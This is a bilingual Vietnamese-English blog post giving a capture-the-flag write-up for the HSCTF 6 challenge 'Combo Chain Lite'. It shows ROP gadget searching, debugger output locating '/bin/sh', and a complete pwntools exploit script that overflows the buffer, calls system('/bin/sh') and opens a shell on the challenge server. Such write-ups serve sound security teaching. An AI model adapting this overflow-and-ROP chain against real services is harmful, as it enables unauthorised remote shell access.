 ```yaml
---
layout: post
published: true
title: 'HSCTF 6: Combo Chain Lite'
categories:
  - CTF
  - HSCTF
---
```

## \[ENGLISH BELOW]


Xin chào.
Hôm nay mình muốn viết lại challenge này.

![Capture-combo-chain-lite.PNG]({{site.baseurl}}/img/ctf/HSCTF/2019/Capture-combo-chain-lite.PNG)


Chall sử dụng [ROP (Return Oriented Programming)](https://ctf101.org/binary-exploitation/return-oriented-programming/). Nên trước tiên ta tìm địa chỉ chứa ROP gadgets phù hợp.
Trong quy ước gọi ([calling conventions](https://ctf101.org/binary-exploitation/what-are-calling-conventions/)), các đối số được truyền vào các registers trong các chương trình 64-bit theo thứ tự như link tham khảo. Trong trường hợp của gọi `system`, thì chúng ta cần phải điều khiển thanh ghi RDI. Mình sẽ tìm các ROP gadgets thông qua tool như [rp++](https://github.com/0vercl0k/rp) hoặc [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) liên quan tới `pop rdi`. 

{: .box-note}
ROPgadget \--binary ./combo-chain-lite \| grep "pop rdi"

Khi đã có được địa chỉ của ROP, ta sẽ cần tìm địa chỉ của hàm `system` khi được nạp vào chương trình khi được thực thi. Tuy nhiên ở đây chương trình đã cung cấp sẵn cho ta.

![exec-combo-chain-lite.PNG]({{site.baseurl}}/img/ctf/HSCTF/2019/exec-combo-chain-lite.PNG)

Tiếp theo ta cần tìm cách đưa chuỗi "/bin/sh" vào như đối số của `system`.
Nếu để ý thì trong chương trình đã có sẵn chuỗi đó, việc cần làm là tìm địa chỉ của nó trong chương trình mà thôi.

Có thể dùng gef hoặc gdb-peda.

-**Đối với gef:**
{% highlight bash linenos %}
$ gdb ./combo-chain-lite
gef➤  r
...
gef➤  grep /bin/sh
[+] Searching '/bin/sh' in memory
[+] In '/home/node/tmp/combo-chain-lite'(0x402000-0x403000), permission=r--
  0x402051 - 0x402058  →   "/bin/sh"
{% endhighlight %}

-**Đối với gdb-peda:**
{% highlight bash linenos %}
$ gdb ./combo-chain-lite
gdb-peda$ b*0x0000000000401209  #đặt breakpoint ở đoạn instruction sau khi in chuỗi
gdb-peda$ r
...
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 3 results, display max 3 items:
combo-chain-lite : 0x402051 --> 0x68732f6e69622f ('/bin/sh')
combo-chain-lite : 0x403051 --> 0x68732f6e69622f ('/bin/sh')
            libc : 0x7ffff7f67e80 --> 0x68732f6e69622f ('/bin/sh')
{% endhighlight %}

Đoạn code exploit của mình:

{% highlight python linenos %}
#Completed

from pwn import *

rm = remote("pwn.hsctf.com", 3131)

padding = "AAA%AAsAABAA$AAn" #16 ki tu (random pattern)
rop_addr = p64(0x0000000000401273)
bin_addr = p64(0x402051) #hoac 0x403051 /bin/sh string
sys_addr = p64(int(rm.recv().rsplit(': ')[1], 16)) 

payload = padding + rop_addr  + bin_addr + sys_addr
print payload
rm.recv()
rm.sendline(payload)
rm.interactive()
rm.close()
{% endhighlight %}

![combo-chain-lite-exploit.png]({{site.baseurl}}/img/ctf/HSCTF/2019/combo-chain-lite-exploit.png)

Done.


## ENGLISH

Hello everyone, here is the challenge:
![Capture-combo-chain-lite.PNG]({{site.baseurl}}/img/ctf/HSCTF/2019/Capture-combo-chain-lite.PNG)

Challenge uses [ROP (Return Oriented Programming)](https://ctf101.org/binary-exploitation/return-oriented-programming/). So first we need to find right ROP gadgets addresses.
In ([calling conventions](https://ctf101.org/binary-exploitation/what-are-calling-conventions/)), arguments are passed in registers in 64-bit programs. In the case of running `system`, this means we will need to find a way to control the RDI register. We will find ROP gadgets through tools like [rp++](https://github.com/0vercl0k/rp) or [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) that have `pop rdi`. 

{: .box-note}
ROPgadget \--binary ./combo-chain-lite \| grep "pop rdi"

After having ROP address, we need to find the address of `system` function that imported when executing the program. But here, the program has provided for us.
​
![exec-combo-chain-lite.PNG]({{site.baseurl}}/img/ctf/HSCTF/2019/exec-combo-chain-lite.PNG)
​
Next, try to figure out how to put the string "/bin/sh" as `system`'s argument.
If you look closer, in the program already has that string, we only need to figure out the address of it.
​
We can use gef or gdb-peda.
​
-**With gef:**
{% highlight bash linenos %}
$ gdb ./combo-chain-lite
gef➤  r
...
gef➤  grep /bin/sh
[+] Searching '/bin/sh' in memory
[+] In '/home/node/tmp/combo-chain-lite'(0x402000-0x403000), permission=r--
  0x402051 - 0x402058  →   "/bin/sh"
{% endhighlight %}
​
-**With gdb-peda:**
{% highlight bash linenos %}
$ gdb ./combo-chain-lite
gdb-peda$ b*0x0000000000401209  #đặt breakpoint ở đoạn instruction sau khi in chuỗi
gdb-peda$ r
...
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 3 results, display max 3 items:
combo-chain-lite : 0x402051 --> 0x68732f6e69622f ('/bin/sh')
combo-chain-lite : 0x403051 --> 0x68732f6e69622f ('/bin/sh')
            libc : 0x7ffff7f67e80 --> 0x68732f6e69622f ('/bin/sh')
{% endhighlight %}

My exploit code:
​
{% highlight python linenos %}
#Completed
​
from pwn import *
​
rm = remote("pwn.hsctf.com", 3131)
​
padding = "AAA%AAsAABAA$AAn" #16 ki tu (random pattern)
rop_addr = p64(0x0000000000401273)
bin_addr = p64(0x402051) #hoac 0x403051 /bin/sh string
sys_addr = p64(int(rm.recv().rsplit(': ')[1], 16)) 
​
payload = padding + rop_addr  + bin_addr + sys_addr
print payload
rm.recv()
rm.sendline(payload)
rm.interactive()
rm.close()
{% endhighlight %}
​
![combo-chain-lite-exploit.png]({{site.baseurl}}/img/ctf/HSCTF/2019/combo-chain-lite-exploit.png)
​
Done.
​